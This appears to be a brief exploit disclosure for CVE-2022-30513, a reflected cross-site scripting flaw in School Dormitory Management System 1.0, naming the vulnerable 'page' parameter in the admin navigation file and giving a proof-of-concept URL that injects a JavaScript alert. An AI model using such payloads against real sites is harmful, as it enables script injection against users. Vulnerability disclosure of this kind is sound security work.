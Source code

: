 # CVE-2022-30513

School Dormitory Management System 1.0 - Reflected XSS

#### Exploit Title: School Dormitory Management System 1.0 - Reflected XSS
#### Date: 2022-05-25
#### CVE: CVE-2022-30513
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://www.sourcecodester.com/
#### Software Link: https://www.sourcecodester.com/php/15319/school-dormitory-management-system-phpoop-free-source-code.html
#### Version: 1.0
#### Tested on: LAMP, Ubuntu

-----


#### [#] Vulnerability Location:

  `$_GET['page']` in `/dms/admin/inc/navigation.php:125`

----

#### [#] Exploitation :

  `http://localhost/dms/admin/?page=%27;%20alert(%22b4zb0z%22);%20s=%27`
